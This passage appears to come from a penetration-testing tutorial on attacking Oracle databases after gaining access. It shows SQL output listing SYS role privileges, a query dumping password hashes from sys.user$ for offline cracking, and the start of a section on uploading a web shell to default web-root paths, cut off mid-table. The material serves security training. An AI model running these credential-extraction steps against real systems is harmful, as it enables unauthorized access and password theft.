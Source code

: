 
Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production


SQL&gt; select * from user_role_privs;

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            ADM_PARALLEL_EXECUTE_TASK      YES YES NO
SYS                            APEX_ADMINISTRATOR_ROLE        YES YES NO
SYS                            AQ_ADMINISTRATOR_ROLE          YES YES NO
SYS                            AQ_USER_ROLE                   YES YES NO
SYS                            AUTHENTICATEDUSER              YES YES NO
SYS                            CONNECT                        YES YES NO
SYS                            CTXAPP                         YES YES NO
SYS                            DATAPUMP_EXP_FULL_DATABASE     YES YES NO
SYS                            DATAPUMP_IMP_FULL_DATABASE     YES YES NO
SYS                            DBA                            YES YES NO
SYS                            DBFS_ROLE                      YES YES NO

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            DELETE_CATALOG_ROLE            YES YES NO
SYS                            EXECUTE_CATALOG_ROLE           YES YES NO
...SNIP...
</code></pre>
<p>We can follow many approaches once we get access to an Oracle database. It highly depends on the information we have and the entire setup. However, we can not add new users or make any modifications. From this point, we could retrieve the password hashes from the <code>sys.user$</code> and try to crack them offline. The query for this would look like the following:</p>
<h4>Oracle RDBMS - Extract Password Hashes</h4>
<pre><code class="language-shell-session">SQL&gt; select name, password from sys.user$;

NAME                           PASSWORD
------------------------------ ------------------------------
SYS                            FBA343E7D6C8BC9D
PUBLIC
CONNECT
RESOURCE
DBA
SYSTEM                         B5073FE1DE351687
SELECT_CATALOG_ROLE
EXECUTE_CATALOG_ROLE
DELETE_CATALOG_ROLE
OUTLN                          4A3BA55E08595C81
EXP_FULL_DATABASE

NAME                           PASSWORD
------------------------------ ------------------------------
IMP_FULL_DATABASE
LOGSTDBY_ADMINISTRATOR
...SNIP...
</code></pre>
<p>Another option is to upload a web shell to the target. However, this requires the server to run a web server, and we need to know the exact location of the root directory for the webserver. Nevertheless, if we know what type of system we are dealing with, we can try the default paths, which are:</p>
<table>
<thead>
<tr>
<th><strong>OS</strong></th>
<th><strong>Path</strong></th>
</tr>
</thead>
<tbody>
<tr>
